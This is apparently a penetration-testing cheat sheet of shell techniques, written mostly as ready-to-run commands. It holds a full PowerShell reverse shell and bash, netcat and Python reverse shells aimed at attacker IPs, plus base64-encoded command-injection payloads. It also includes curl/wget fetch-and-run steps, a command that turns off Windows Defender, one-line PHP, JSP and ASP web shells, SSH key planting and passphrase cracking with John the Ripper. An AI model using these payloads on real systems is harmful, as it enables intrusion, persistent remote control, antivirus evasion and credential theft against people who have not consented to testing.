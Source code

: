 ```yaml
---
layout: default
---
```


# Shell
## LISTENING SHELL
- `nc -lnvp 9999`

# [Reverse Shell](https://www.revshells.com/)
With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target

## Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.60',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## sh files
```bash
#!\bin/bash 

sh -i >& /dev/tcp/10.10.14.5/9999 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 9999 >/tmp/fs
```

### Execute Reverse Shell File
```bash
# Transfir File to Target
$ curl <MY_IP>:<MY_PORT>/bash.sh -o /tmp/bash.sh
$ wget <MY_IP>:<MY_PORT>/bash.sh 

# Execute Shell
$ ./tmp/bash.sh
$ bash /tmp/bash.sh
```

## Pyton
```py
$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Upload PHP file that works like a page
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 

## Payloads CI
```bash
# Convert reverse shell to base64
$ echo 'sh -i >& /dev/tcp/10.10.14.8/9999 0>&1' | base64

# Send the payload
$ echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjEK"|base64${IFS}-d|bash

# Execute reverse shell
$ bash -c("sh -i >& /dev/tcp/10.10.14.5/4444 0>&1")
$ curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
$ bash -c 'sh -i >%26 /dev/tcp/10.10.14.5/9999 0>%261'`
```

* * *

# Bind Shells
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system.


```bash
bash
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect Attack
$ nc -nv 10.129.41.200 7777
```

* * *

# [Web Shells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
`copy from /usr/share/laudanum`

## [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 
```bash
<?php SYSTEM($_REQUEST['cmd']); ?>
```

## [ASPX Antak Webshell](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
`copy from /usr/share/nishang/Antak-WebShell`

> Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.

## JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP
```
<% eval request("cmd") %>
```

## [War](https://github.com/BustedSec/webshell/blob/master/webshell.war)
> java/war (Tomcat, Axis2, or WebLogic)

```bash
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
$ zip -r backup.war cmd.jsp 
```



# Interactive Shells
```bash
# Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm

# /bin/sh -i
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'

## The command should be run from a script.
perl: exec "/bin/sh";


# Ruby
## The command should be run from a script.
ruby: exec "/bin/sh"


# Lua
## The command should be run from a script.
lua: os.execute('/bin/sh')


# AWK
awk 'BEGIN {system("/bin/sh")}'


# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;


# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# VIM
vim -c ':!/bin/sh'


# Vim Escape
vim
:set shell=/bin/sh
:shell
```

## Generate SSH Key
### Victim
```bash
$ ssh-keygen
$ cd ./ssh
$ cat id_rsa.pub > authorized_keys
$ chmod 700 ~/
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/authorized_key
```

### Host
```bash
$ nano id_rsa
(Copy from id_rsa victim)
$ chmod 400 id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```

### PassPhrase 
```bash
$ python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john --show hash.txt
```

